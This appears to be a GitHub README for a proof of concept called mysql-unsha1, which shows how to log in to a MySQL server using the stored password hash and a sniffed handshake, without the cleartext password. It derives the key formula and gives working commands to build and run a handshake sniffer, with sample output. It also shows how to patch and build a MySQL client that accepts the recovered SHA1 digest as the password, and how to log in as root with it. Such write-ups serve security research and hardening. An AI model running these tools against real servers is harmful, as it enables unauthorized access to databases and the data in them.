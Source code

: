 mysql-unsha1
============

Authenticate against a MySQL server without knowing the cleartext password.

Abstract
--------

This PoC shows how it is possible to authenticate against a MySQL server under
certain circumstances without knowing the cleartext password when the [Secure
Password Authentication] authentication plugin (aka `mysql_native_password`) is
used.

The main prerequisites are at least:

- to obtain a read-only access to the `mysql.user` table in the target database
  in order to fetch the hashed password for a given user;

- to be able to sniff a successful authentication handshake performed by the
  aforementioned user (i.e., no SSL).

MySQL server passwords
----------------------

By default, passwords are stored in the `mysql.user` table and are hashed using
the `PASSWORD` function which is just a two-stage SHA1 digest:

```
> SELECT user, password FROM mysql.user;
+------------------+-------------------------------------------+
| user             | password                                  |
+------------------+-------------------------------------------+
| root             | *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 |
+------------------+-------------------------------------------+

> SELECT PASSWORD('password');
+-------------------------------------------+
| PASSWORD('password')                      |
+-------------------------------------------+
| *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 |
+-------------------------------------------+

> SELECT SHA1(UNHEX(SHA1('password')));
+------------------------------------------+
| SHA1(UNHEX(SHA1('password')))            |
+------------------------------------------+
| 2470c0c06dee42fd1618bb99005adca2ec9d1e19 |
+------------------------------------------+
```

The handshake
-------------

After the TCP connection phase, initiated by the client, the MySQL
authentication [handshake] continues as follows (simplified):

1. the server sends a `Server Greeting` packet containing a *salt* (`s`);

2. the client replies with a `Login Request` packet containing the session
   password (`x`), computed as follows:

        x := SHA1(password) XOR SHA1(s + SHA1(SHA1(password)))

    where `password` is the cleartext password as provided by the user and `+`
    is a mere string concatenation operator;

3. the server can verify the *challenge* and authenticate the client if:

        SHA1(x XOR SHA1(s + SHA1(SHA1(password)))) = SHA1(SHA1(password))

The exploit
-----------

With enough information an attacker is able to obtain `SHA1(password)` and
therefore to solve the server challenge without the knowledge of the cleartext
password.

Let:

- `h` be the hashed password obtained from the `mysql.user` table (i.e.,
  `SHA1(SHA1(password))`);

- `s` and `x` be the salt and the session password respectively obtained from
   the sniffed handshake.

The first-stage SHA1 can be obtained as follows:

    SHA1(password) = x XOR SHA1(s + h)

Tools
-----

To ease the reproducibility of the exploit, this PoC provides two tools:

- a simple sniffer to extract and check the handshake information either live or
  offline from a PCAP file;

- a patch for MySQL client which allows to treat the prompted passwords as SHA1
  digests instead of cleartexts.

### The sniffer

To build `mysql-unsha1-sniff` just run `make` (or `make static` to produce a
statically linked executable). The Makefile will look for the `uthash.h` file in
this directory and will download it if not found.

Run `mysql-unsha1-sniff` without arguments to display the usage message.

In accordance with the previous example:

    sudo ./mysql-unsha1-sniff -i lo 127.0.0.1 3306 2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19:root

Once a successful authentication handshake is captured the output will be like:

    [+] Input:
    [+] - username ........................ 'root'
    [+] - salt ............................ 3274756c42415d3429717e482a3776704d706b49
    [+] - client session password ......... 6d45a453b989ad0ff0c84daf623e9870f129c329
    [+] - SHA1(SHA1(password)) ............ 2470c0c06dee42fd1618bb99005adca2ec9d1e19
    [+] Output:
    [+] - SHA1(password) .................. 5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8
    [+] Check:
    [+] - computed SHA1(SHA1(password)) ... 2470c0c06dee42fd1618bb99005adca2ec9d1e19
    [+] - authentication status ........... OK

If no account information are provided, the tool will only display the salt and
the session password.

### The patched MySQL client

This may take some time and will require a certain amount of free disk space:

1. download and extract the MySQL source code:

        wget https://github.com/mysql/mysql-server/archive/mysql-5.7.17.tar.gz
        tar xf mysql-5.7.17.tar.gz
        cd mysql-server-mysql-5.7.17

2. apply the patch:

        patch -p1 </path/to/mysql-server-unsha1.patch

3. build (without server) with:

        mkdir build
        cd build
        cmake -DDOWNLOAD_BOOST=1 -DWITH_BOOST=boost -DWITHOUT_SERVER:BOOL=ON ..
        make -j$(nproc)

4. the client executable will be created at `client/mysql`, optionally install
   it globally and delete the whole source code to save some space:

        sudo cp client/mysql /usr/local/bin/mysql-unsha1
        cd ../..
        rm -fr mysql-server-mysql-5.7.17

Use `mysql-unsha1` as the original MySQL client, just remember that the
`--password[=password], -p[password]` option now requires a 40-digit hexadecimal
SHA1 string.

In accordance with the previous example:

    mysql-unsha1 -h 127.0.0.1 -P 3306 -u root --password=5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8

Where:

```
> SELECT SHA1(UNHEX('5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8'));
+---------------------------------------------------------+
| SHA1(UNHEX('5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8')) |
+---------------------------------------------------------+
| 2470c0c06dee42fd1618bb99005adca2ec9d1e19                |
+---------------------------------------------------------+
```

and `2470c0c06dee42fd1618bb99005adca2ec9d1e19` is the hashed password stored in
the `mysql.user` table.

[Secure Password Authentication]: https://dev.mysql.com/doc/internals/en/secure-password-authentication.html
[handshake]: https://dev.mysql.com/doc/internals/en/plain-handshake.html
